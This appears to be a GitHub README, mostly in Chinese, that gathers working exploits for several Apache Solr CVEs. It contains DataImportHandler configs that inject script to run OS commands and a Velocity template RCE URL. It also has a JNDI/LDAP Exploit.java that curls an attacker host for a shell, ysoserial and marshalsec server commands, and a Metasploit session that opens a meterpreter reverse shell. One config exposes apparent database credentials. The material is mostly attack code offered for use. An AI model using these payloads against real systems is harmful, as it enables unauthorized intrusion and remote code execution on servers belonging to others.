







# Apache-Solr-Vulnerability
Apache Solr Some Exploits  🌟

# Solr

Apache Solr为世界上许多最大的互联网站点提供搜索和导航功能,是一个开源的搜索服务器。具有高度可靠、可伸缩和容错的，提供分布式索引、复制和负载平衡查询、自动故障转移和恢复、集中配置等功能。

### List

	1.CVE-2019-0193
	2.CVE-2019-0192
	3.CVE-2019-17558
	4.CVE-2017-12629
	5.CVE-2019-12409

## CVE-2019-0193
Apache Solr DataImportHandler RCE

### 影响版本
Apache Solr < 8.2.0 并且开启了DataImportHandler模块(默认情况下该模块不被启用)

### 漏洞利用

1.首先判读是否solr不需认证直接可访问后台（大多数均可访问）

2.判断是否存在collections



3.判断collections是否可以使用dataimport功能



4.debug模式修改configuration

原：

```xml
<dataConfig>
  <dataSource  type="JdbcDataSource"
               driver="com.microsoft.sqlserver.jdbc.SQLServerDriver"
               url="jdbc:sqlserver://SqlServer;databaseName=TrainUpCore"
               user="pid.trainup"
               password="S@cram3nt0"
               readOnly="true"
              />


  <document name="TrainUpDoc">
  <entity name="Lo" query="select newid() id, * from CatalogSearch.Categories_LiveTrainingWithoutLocation order by ItemTitle">
                          <field column="ItemTitle" name="ItemTitle"/>
                          <field column="ItemCourseId" name="ItemCourseId"/>
                          <field column="ItemDescription" name="ItemDescription"/>
                          <field column="Price" name="ItemPrice"/>
                          <field column="ItemDurationType" name="ItemDurationType"/>
                          <field column="ItemDurationValue" name="ItemDurationValue"/>
                          <field column="typeItemCode" name="typeItemCode"/>
                          <field column="ProviderWeight" name="ProviderWeight"/>
                          <field column="ItemCatId" name="ItemCatId"/>
                          <field column="PublishedDate" name="PublishedDate"/>
                          <field column="ItemImageUrl" name="ItemImageUrl"/>
                          <field column="ItemTrainingRating" name="ItemTrainingRating"/>
                          <field column="#Row" name="#Row"/>
                          <field column="ItemCatImageUrl" name="ItemCatImageUrl"/>
                          <field column="ItemEventsno" name="ItemEventsno"/>
                          <field column="CourseWeight" name="CourseWeight"/>
                          <field column="CategoryRankScore" name="CategoryRankScore"/>
                          
  </entity>
  </document>
</dataConfig>
```

[1] 无回显 直接执行命令修改：

​	（1）在entity中添加transformer="script:f1"，f1为函数名

​	（2）添加<script>内容

​	（3）execute with this configuration

```xml
<dataConfig>
  <dataSource  type="JdbcDataSource"
               driver="com.microsoft.sqlserver.jdbc.SQLServerDriver"
               url="jdbc:sqlserver://SqlServer;databaseName=TrainUpCore"
               user="pid.trainup"
               password="S@cram3nt0"
               readOnly="true"
              />
     <script><![CDATA[
        function f1(row){
        java.lang.Runtime.getRuntime().exec("powershell xxx");
        return row;
        }
    ]]></script>


  <document name="TrainUpDoc">
  <entity name="Lo" transformer="script:f1" query="select newid() id, * from CatalogSearch.Categories_LiveTrainingWithLocation order by ItemTitle">
                          <field column="ItemTitle" name="ItemTitle"/>
                          <field column="ItemCourseId" name="ItemCourseId"/>
                          <field column="ItemDescription" name="ItemDescription"/>
                          <field column="Price" name="ItemPrice"/>
                          <field column="ItemDurationType" name="ItemDurationType"/>
                          <field column="ItemDurationValue" name="ItemDurationValue"/>
                          <field column="typeItemCode" name="typeItemCode"/>
                          <field column="ProviderWeight" name="ProviderWeight"/>
                          <field column="ItemCatId" name="ItemCatId"/>
                          <field column="PublishedDate" name="PublishedDate"/>
                          <field column="ItemImageUrl" name="ItemImageUrl"/>
                          <field column="ItemTrainingRating" name="ItemTrainingRating"/>
                          <field column="#Row" name="#Row"/>
                          <field column="ItemCatImageUrl" name="ItemCatImageUrl"/>
                          <field column="ItemEventsno" name="ItemEventsno"/>
                          <field column="CityItemEventsno" name="CityItemEventsno"/>
                          <field column="StartDate" name="StartDate"/>
                          <field column="StartTime" name="StartTime"/>
                          <field column="TimeZone" name="TimeZone"/>
                          <field column="MarketCityID" name="MarketCityID"/>
                          <field column="ItemCity" name="ItemCity"/>
                          <field column="CourseWeight" name="CourseWeight"/>
                          <field column="CategoryRankScore" name="CategoryRankScore"/>
  </entity>
  </document>
</dataConfig>
```


[2] 有回显 直接执行命令修改：

​	（1）在entity中添加transformer="script:f1"，f1为函数名

​	（2）添加<script>内容，将执行回显输出到field的参数重，如id、ItemDescription，若不行则需结合managed-schema配置输出

​	（3）execute with this configuration

```xml
<dataConfig>
  <dataSource  type="JdbcDataSource"
               driver="com.microsoft.sqlserver.jdbc.SQLServerDriver"
               url="jdbc:sqlserver://SqlServer;databaseName=TrainUpCore"
               user="pid.trainup"
               password="S@cram3nt0"
               readOnly="true"
              />
	<script><![CDATA[
        function f1(row){
        row.put("id",new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("whoami").getInputStream())).readLine());
        return row;
        }
    ]]></script>


  <document name="TrainUpDoc">
  <entity name="Lo" transformer="script:f1" query="select newid() id, * from CatalogSearch.Categories_LiveTrainingWithLocation order by ItemTitle">
                          <field column="ItemCourseId" name="id"/>
                          <field column="ItemDescription" name="ItemDescription"/>
                          <field column="Price" name="ItemPrice"/>
                          <field column="ItemDurationType" name="ItemDurationType"/>
                          <field column="ItemDurationValue" name="ItemDurationValue"/>
                          <field column="typeItemCode" name="typeItemCode"/>
                          <field column="ProviderWeight" name="ProviderWeight"/>
                          <field column="ItemCatId" name="ItemCatId"/>
                          <field column="PublishedDate" name="PublishedDate"/>
                          <field column="ItemImageUrl" name="ItemImageUrl"/>
                          <field column="ItemTrainingRating" name="ItemTrainingRating"/>
                          <field column="#Row" name="#Row"/>
                          <field column="ItemCatImageUrl" name="ItemCatImageUrl"/>
                          <field column="ItemEventsno" name="ItemEventsno"/>
                          <field column="CityItemEventsno" name="CityItemEventsno"/>
                          <field column="StartDate" name="StartDate"/>
                          <field column="StartTime" name="StartTime"/>
                          <field column="TimeZone" name="TimeZone"/>
                          <field column="MarketCityID" name="MarketCityID"/>
                          <field column="ItemCity" name="ItemCity"/>
                          <field column="CourseWeight" name="CourseWeight"/>
                          <field column="CategoryRankScore" name="CategoryRankScore"/>
  </entity>
  </document>
</dataConfig>
```



[3] JNDI+LDAP（无需目标的CLASSPATH存在数据库驱动）：

​	（1）修改configuration内容

```xml
<dataConfig>
	<dataSource type="JdbcDataSource"
		jndiName="ldap://xxx.xxx.xxx.xxx:1389/Exploit"/>
	<document>
		<entity name="test">
		</entity>
	</document>	
</dataConfig>
```

​	（2）hackserver

Exploit.java

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.*;
import java.util.Hashtable;

public class Exploit implements ObjectFactory {

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        try {
            Runtime.getRuntime().exec("curl http://xxx.xxx.xxx.xxx:1212/getshell");
        } catch (IOException e) {
            e.printStackTrace();
        }
        return null;
    }
}
```

JDK 高版本会限制远程codebase 加载，期待1.8以下

```
javac --release 7 Exploit.java

java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndiDAPRefServer http://xxx.xxx.xxx.xxx:8888/#Exploit 1389

python3 -m http.server 8888
```

​	（3）execute with this configuration


### 工具利用

https://github.com/Rapidsafeguard/Solr-RCE-CVE-2019-0192/blob/master/solr_RCE.py
https://github.com/weTomorrow/solr_poc/blob/master/solr_poc.py

## CVE-2019-0192

### 影响版本

Apache Solr 5.0.0-5.5.5 版本

Apache Solr 6.0.0-6.6.5 版本

### 漏洞利用

configAPI主要功能是检索或修改配置。 GET负责检索，POST负责执行命令。通过传入set-property属性，构造恶意的数据，传入指向恶意的rmi服务器的链接，覆盖之前服务器的原设置，使得目标服务器与攻击者的恶意rmi服务器相连，攻击者可以使用ysoserial工具，通过rmi服务器向远端目标服务器发送命令，并在目标服务器上执行，实现远程命令执行

1.首先判读存在cores节点

```
http://ip:port/solr/admin/cores?wt=json
```



```
http://ip:port/solr/name[0]/config
```



2.server通过ysoserial部署RMI server

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1234 Jdk7u21 "cmd"
```



注意: 你会看到返回中出现500错误

如果错误中包含: “Non-annotation type in annotation serial stream” 说明 Apache Solr 的Java版本 > JRE 7u25，则PoC执行不成功。

如果你看到错误中包含: “undeclared checked exception; nested exception is”，则PoC执行成功.

### 工具利用

https://github.com/mpgn/CVE-2019-0192/blob/master/CVE-2019-0192.py

## CVE-2019-17558

### 影响版本

Apache Solr 5.x到8.2.0版本

### 漏洞利用
```
http://ip:port/solr/+core_name+/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```



### 工具利用

https://github.com/wyzxxz/Apache_Solr_RCE_via_Velocity_template

## CVE-2017-12629

### 影响版本

Apache Solr 5.5.0到7.0.1版本

### 漏洞利用
此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

https://paper.seebug.org/425/

## CVE-2019-12409

### 影响版本
APACHE SOLR 8.1.1/8.2.0 CONFIGURATION FILE SOLR.IN.SH PRIVILEGE ESCALATION

### 漏洞利用
Apache Solr的8.1.1和8.2.0发行版中的默认配置文件solr.in.sh,在其配置文件中ENABLE_REMOTE_JMX_OPTS字段默认配置不安全.如果使用受影响版本中的默认配置,那么将启用JMX监视服务并将对公网监听一个18983的RMI端口,且无需进行任何身份验证,配合JMX RMI将会导致远程代码执行.

使用Metasploit 
```
msf5 > use multi/misc/java_jmx_server
msf5 exploit(multi/misc/java_jmx_server) > show options

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS                         yes       The target address range or CIDR identifier
   RPORT                          yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > set RHOSTS a.a.a.a
RHOSTS => a.a.a.a
msf5 exploit(multi/misc/java_jmx_server) > set RPORT 18983
RPORT => 18983
msf5 exploit(multi/misc/java_jmx_server) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > show options

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS        a.a.a.a     yes       The target address range or CIDR identifier
   RPORT         18983            yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > set LHOST b.b.b.b
LHOST => b.b.b.b
msf5 exploit(multi/misc/java_jmx_server) > run
[*] Started reverse TCP handler on b.b.b.b:4444
[*] a.a.a.a:18983 - Using URL: http://b.b.b.b:8080/OcbYS8uaTPDH
[*] a.a.a.a:18983 - Sending RMI Header...
[*] a.a.a.a:18983 - Discovering the JMXRMI endpoint...
[+] a.a.a.a:18983 - JMXRMI endpoint on a.a.a.a:18983
[*] a.a.a.a:18983 - Proceeding with handshake...
[+] a.a.a.a:18983 - Handshake with JMX MBean server on a.a.a.a:18983
[*] a.a.a.a:18983 - Loading payload...
[*] a.a.a.a:18983 - Replied to request for mlet
[*] a.a.a.a:18983 - Replied to request for payload JAR
[*] a.a.a.a:18983 - Executing payload...
[*] a.a.a.a:18983 - Replied to request for payload JAR
[*] Sending stage (53867 bytes) to a.a.a.a
[*] Meterpreter session 1 opened (a.a.a.a:4444 -> b.b.b.b:46582) at 2019-11-21 15:24:53 +0000

meterpreter > 
```

### 工具利用
https://github.com/siberas/sjet

